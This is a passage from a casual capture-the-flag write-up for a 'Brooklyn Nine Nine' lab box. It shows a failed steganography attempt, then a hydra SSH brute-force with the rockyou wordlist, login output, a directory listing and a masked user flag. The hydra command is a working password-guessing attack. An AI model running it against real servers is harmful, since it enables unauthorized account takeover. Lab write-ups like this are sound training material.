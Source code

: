 
I tried to look around on how to extract the hidden data into that picture, but I'm clueless. I don't know which app they used and what encryption and passphrase they used, let alone all the technical things behind it. No time to play around for maybe nothing. I also found this website <https://stylesuxx.github.io/steganography/> to encode and decode but once decoded, even the chinese language would be easier to understand. I guess they are trying to get fun on my face. So I put this on hold as I maybe need a hint or gather more information.

## Brute forcing the SSH server

Let's look about that ssh server first.

```commandline
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.15.48 ssh -V -I
```

I did not even have had the time to scratch my butt that the password was cracked. Nice job `Jake`, pardon, `hydra`.

```commandline
[22][ssh] host: 10.10.15.48   login: jake   password: *********
```

Let's try to login on the ssh server

```commandline
ssh jake@10.10.15.48
ake@brookly_nine_nine:~$ ls -lah
total 48K
drwxr-xr-x 7 jake jake 4.0K Jul 30 22:07 .
drwxr-xr-x 5 root root 4.0K May 18  2020 ..
-rw------- 1 root root 1.4K May 26  2020 .bash_history
-rw-r--r-- 1 jake jake  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jake jake 3.7K Apr  4  2018 .bashrc
drwx------ 2 jake jake 4.0K May 17  2020 .cache
drwxr-x--- 3 jake jake 4.0K Jul 30 22:07 .config
drwx------ 3 jake jake 4.0K Jul 30 22:07 .gnupg
-rw------- 1 root root   67 May 26  2020 .lesshst
drwxrwxr-x 3 jake jake 4.0K May 26  2020 .local
-rw-r--r-- 1 jake jake  807 Apr  4  2018 .profile
drwx------ 2 jake jake 4.0K May 18  2020 .ssh
-rw-r--r-- 1 jake jake    0 May 17  2020 .sudo_as_admin_successful
```

That `.sudo_as_admin_successful` is a serious hint I bet! I will get confirmation with `linepeas` ;-)

Did not found anything interesting in `amy's` and `jakes's` home folder. Except a file in `holt's` home:

```commandline
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee*****19052e40b07aac0ca0*****ee
```

So here we go for the `user` flag :-P
